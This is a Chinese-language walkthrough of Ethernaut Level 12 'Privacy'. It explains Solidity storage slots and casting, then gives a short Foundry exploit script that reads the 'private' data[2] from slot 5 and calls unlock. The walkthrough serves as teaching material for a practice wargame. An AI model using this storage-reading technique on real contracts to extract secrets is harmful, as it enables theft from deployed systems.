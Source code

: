 # Level 12 - Privacy

## 題目
[Privacy](https://ethernaut.openzeppelin.com/level/0x131c3249e115491E83De375171767Af07906eA36)

### 通關條件
這個合約的開發者非常小心的保護了 storage 敏感資料的區域.
把這個合約解鎖就可以通關喔

### 提示
- 理解 storage 是如何運作的
- 理解 parameter parsing 的原理
- 理解 casting 的原理
### 合約內容
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }

    /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
    */
}
```
## 解題
**Storage** 在 [Level 8 - Vault](https://hackmd.io/@D13/ethernaut8) 就有提到，合約中的 state variable 皆會儲存於此

**Parameter parsing** 是指變數在被呼叫時的過程，會有兩種不同的稱呼：
  - Formal parameter（參數, Parameter）：宣告 function 時，設計用於接受值的變數
  - Actual parameter（引數, Argument）：呼叫 function 時，要輸入至參數的變數

parameter parsing 的說明也可以參考以下兩篇，有範例程式碼幫助了解：
- [The four parsing techniques in programming](https://medium.com/@joshaniekwe/do-you-know-that-there-are-four-parsing-technique-and-not-the-commonly-known-two-in-programming-64efed136b13)
- [引數 (Argument) vs. 參數 (Parameter)](https://notfalse.net/6/arg-vs-param#google_vignette)

**casting** 是指當不同型態的變數要一起運算時，「**若型態轉換不會影響原數值的話，就會自動改變型態並運算**」，舉裡來說：
```
uint8 valor1 = 140;
uint16 valor2 = 480;
uint16 valor3 = valor1 + valor2; // 620
```
詳細可以參考 [Learn Solidity lesson 22. Type casting.](https://medium.com/coinmonks/learn-solidity-lesson-22-type-casting-656d164b9991)


---

這題解鎖的方法要呼叫 16 行的 `unlock(bytes16 _key)`，它會檢查你輸入的 `_key ` 是否等於 `bytes16(data[2])`
```solidity=16
    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }
```
所以我們要讀取 `data[2]` 的數值，雖然是 `private` 屬性，但我們還是可以在 storage slot 中找到，只要透過變數的長度去推算即可，這題宣告的變數有：
```solidity=5
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;
```
將變數逐個填入 stroage slot（1 個 slot 可以存放 32 bytes）：


| slot idx	 | (type) Variable |
| -------- | -------- | 
| 0     | (bool) locked | 
| 1     | (uint256) ID | 
| 2     | (uint8) flattening, (uint8) denomination, (uint16) awkwardness     | 
| 3     | (bytes32) data[0]| 
| 4     | (bytes32) data[1]| 
| 5     | (bytes32) data[2]| 

所以 `_key` 在 slot 5 可以找到，還要記得把它轉換成 `bytes16`，實作如下：
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/12_Privacy.sol";

contract ExploitScript is Script {
    Privacy level12 = Privacy(your_challenge_address);

    function run() external {
        vm.startBroadcast();

        level12.unlock(bytes16(vm.load(address(level12), bytes32(uint256(5)))));

        vm.stopBroadcast();
    }
}
```